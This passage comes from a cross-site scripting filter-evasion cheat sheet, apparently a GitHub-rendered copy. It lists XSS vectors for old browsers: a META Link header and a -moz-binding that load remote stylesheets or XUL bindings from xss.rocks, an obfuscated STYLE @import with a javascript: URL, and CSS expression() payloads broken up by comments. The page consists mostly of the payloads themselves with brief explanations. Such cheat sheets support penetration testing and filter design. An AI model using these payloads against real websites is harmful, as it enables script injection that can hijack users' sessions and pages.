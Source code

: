 <p>This only works in Opera 8.0 (no longer in 9.x) but is fairly tricky. According to RFC2616 setting a link header is not part of the HTTP1.1 spec, however some browsers still allow it (like Firefox and Opera). The trick here is that I am setting a header (which is basically no different than in the HTTP header saying <code>Link: &lt;http://xss.rocks/xss.css&gt;; REL=stylesheet</code>) and the remote style sheet with my cross site scripting vector is running the JavaScript, which is not supported in FireFox:</p>
<pre><code>&lt;META HTTP-EQUIV="Link" Content="&lt;http://xss.rocks/xss.css&gt;; REL=stylesheet"&gt;
</code></pre>
<h2><a id="user-content-remote-style-sheet-part-4" class="anchor" aria-hidden="true" href="#remote-style-sheet-part-4"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>Remote style sheet part 4</h2>
<p>This only works in Gecko rendering engines and works by binding an XUL file to the parent page. I think the irony here is that Netscape assumes that Gecko is safer and therefor is vulnerable to this for the vast majority of sites:</p>
<pre><code>&lt;STYLE&gt;BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}&lt;/STYLE&gt;
</code></pre>
<h2><a id="user-content-style-tags-with-broken-up-javascript-for-xss" class="anchor" aria-hidden="true" href="#style-tags-with-broken-up-javascript-for-xss"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>STYLE tags with broken up JavaScript for XSS</h2>
<p>This XSS at times sends IE into an infinite loop of alerts:</p>
<pre><code>&lt;STYLE&gt;@im\port'\ja\vasc\ript:alert("XSS")';&lt;/STYLE&gt;
</code></pre>
<h2><a id="user-content-style-attribute-using-a-comment-to-break-up-expression" class="anchor" aria-hidden="true" href="#style-attribute-using-a-comment-to-break-up-expression"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>STYLE attribute using a comment to break up expression</h2>
<p>Created by Roman Ivanov</p>
<pre><code>&lt;IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))"&gt;
</code></pre>
<h2><a id="user-content-img-style-with-expression" class="anchor" aria-hidden="true" href="#img-style-with-expression"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>IMG STYLE with expression</h2>
<p>This is really a hybrid of the above XSS vectors, but it really does
show how hard STYLE tags can be to parse apart, like above this can send
IE into a loop:</p>
<pre><code>exp/*&lt;A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'&gt;
</code></pre>
<h2><a id="user-content-style-tag-older-versions-of-netscape-only" class="anchor" aria-hidden="true" href="#style-tag-older-versions-of-netscape-only"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>STYLE tag (Older versions of Netscape only)</h2>
<pre><code>&lt;STYLE TYPE="text/javascript"&gt;alert('XSS');&lt;/STYLE&gt;
</code></pre>